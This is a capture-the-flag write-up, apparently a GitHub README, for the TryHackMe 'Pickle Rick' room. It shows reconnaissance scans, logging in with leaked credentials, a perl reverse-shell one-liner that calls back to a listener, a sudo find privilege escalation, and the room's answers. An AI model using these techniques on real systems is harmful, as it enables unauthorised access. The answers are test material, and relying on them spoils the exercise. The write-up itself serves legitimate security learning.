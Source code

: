 # CTF-TryHackMe-Pickle_Rick


This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

What is the first ingredient Rick needs?

1. Start by running a nmap scan against the machine
    nmap -A -sV -O -T4 10.10.102.243 -oN nmap_initial
    The resulst show that port 22, ssh and port 80, http are open
    
2. Let's now vist the website
    The first thing to do is view the source code: 
    ![Screenshot 2022-01-06 18^%16^%21](https://user-images.githubusercontent.com/86057471/148465943-2311f56e-3885-489f-b585-26973a00ed2f.png)
    
    We can see a note giving a username: R1ckRul3s
    
3. Time to run gobuster: gobuster dir -u IP -w /usr/share/wordlists/dirb/common.txt -t 16 -oN gobuster_intial
    ![Screenshot 2022-01-06 18^%16^%21](https://user-images.githubusercontent.com/86057471/148466489-7460d5c9-1c44-4fc2-8d91-2fcbb042b672.png)
    
     We find a robots.txt file\
     Go to <IP>/robots.txt\
     We get a text: Wubbalubbadubdub: Possibly a password
    
4. Let's try running gobuster again with -x php to see if we can find any other directories:
   ![Screenshot 2022-01-06 18^%16^%21](https://user-images.githubusercontent.com/86057471/148466986-eb30744e-41fe-4929-91b7-b67634d6f37d.png)
    
   We found login.php let's check it out:
    ![Screenshot 2022-01-07 02^%35^%15](https://user-images.githubusercontent.com/86057471/148508681-f050d6c3-3507-491a-84a5-75979214962e.png)
    
   It's asking us for a username and password we can use the one we found: R1ckRul3s, Wubbalubbadubdub
    
5. Now we are presented with a command panel, run ls to see if we find anything intereseting:
    ![Screenshot 2022-01-07 02^%39^%15](https://user-images.githubusercontent.com/86057471/148509156-6115cf70-2fb3-4632-9e04-e667de0d0b67.png)
    
    Two files to look at: Sup3rS3cretPickl3Ingred.txt and clue.txt\
    If we try using cat to look at the file we get an error:
    ![Screenshot 2022-01-07 02^%42^%09](https://user-images.githubusercontent.com/86057471/148509451-a11fa6c7-a19a-42bc-acfd-fc68f4a29067.png)
    
    We are not allowed to use cat, using vim and nano doesn't work either, so we can try visiting the webpage: IP/Sup3rS3cretPickl3Ingred.txt\
    And we got our first ingredient: mr. meeseek hair
 

Whats the second ingredient Rick needs?

1. Let's check out the clue.txt file: IP/clue.txt\
    We get a message: Look around the file system for the other ingredient.
    
2. We need to try to get a reverse shell to check out the file system\
    We have a command line so we can try to run a reverse shell script\
    I went to swisskyrepo/PayloadsAllTheThings to find a reverse shell script to use. I used the perl script:\
    perl -e 'use Socket;$i="IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'\
    Before we run the script in the command panel we need to setup a ncat listener: nc -localhost -port\
    Now run the perl script and we get a shell

3. Now that we have a shell let's see if we can find the second ingredient\
    If we cd to the home folder we find a two folders in the rick folder we find the second ingredient: 1 jerry tear
    
Whats the final ingredient Rick needs?

1. We can try checking the root folder for the last ingredient: cd root
    ![Screenshot 2022-01-07 05^%54^%03](https://user-images.githubusercontent.com/86057471/148533787-470fe95c-c962-41ec-9bef-75b18af633da.png)
    
    We can't cd to root as www-data user\
    We can check what sudo privileges we have: sudo -l
    ![Screenshot 2022-01-07 05^%55^%57](https://user-images.githubusercontent.com/86057471/148534035-c74b090f-94e9-43bc-8f6e-22e1c988d7b3.png)
    
    As we see we have all sudo privileges\
    So we can use any sudo privilage escalation for exampe using find: sudo find /home -exec sh -i \;\
    Now we run whoami we can see we are root\
    So let's now check the root folder and we find the third ingredient in 3rd.txt: fleeb juice
    
    

    
    

    
    

